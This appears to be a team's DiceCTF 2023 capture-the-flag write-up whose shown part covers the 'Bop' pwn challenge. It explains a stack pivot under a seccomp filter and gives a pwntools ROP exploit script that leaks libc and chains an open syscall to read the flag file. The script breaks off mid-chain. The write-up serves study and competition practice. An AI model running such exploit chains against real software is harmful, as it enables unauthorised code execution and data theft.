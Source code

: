 # DiceCTF 2023 Writeup - EN

## Preface:

This competition has won the second place🥈. Now the writeup of the members is sorted out as follows, and we can exchange and learn with you. Interested masters are welcome to submit their resumes to `root@r3kapig.com`, and we will contact you in time.

![](https://imgur.com/KewItPk.png)

## Pwn:

### Bop:

It's a simple, stack pivot chall, but since seccomp is set, only open, read, and write are available.
However, libc's open actually uses openat syscall, so I can't use it.

You can run open via the syscall gadget. There was a "syscall; ret;" gadget, but I overlooked it, so I just used the syscall gadget.

In order to use the syscall gadget for ROP, the master canary of libc must be overwritten.

```python
from pwn import *

#p = process('bop')
p = remote('mc.ax', 30284)

pay = b'a'*32 + p64(0x404120-0x8)
pay += p64(0x00000000004013d3+1) #ret
pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404090)
pay += p64(0x4010F0) #printf
pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404100) #bss
pay += p64(0x401100) #gets
pay += p64(0x401364) #leave_ret

p.sendline(pay)

libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x1ec980
print(f'libc_base = {hex(libc_base)}')

pay = b'flag.txt'.ljust(32,b'\x00')

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x0)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(libc_base - 0x2898)
pay += p64(libc_base+0x0000000000142c92) #pop_rdx
pay += p64(0x8)
pay += p64(libc_base+0x10dfc0) #read

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404100)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(0x0)
pay += p64(libc_base+0x0000000000036174) #pop_rax
pay += p64(0x2) #open
pay += p64(libc_base+0x000000000007f1d2)
pay += p64(libc_base+0x25EE2) #syscall

```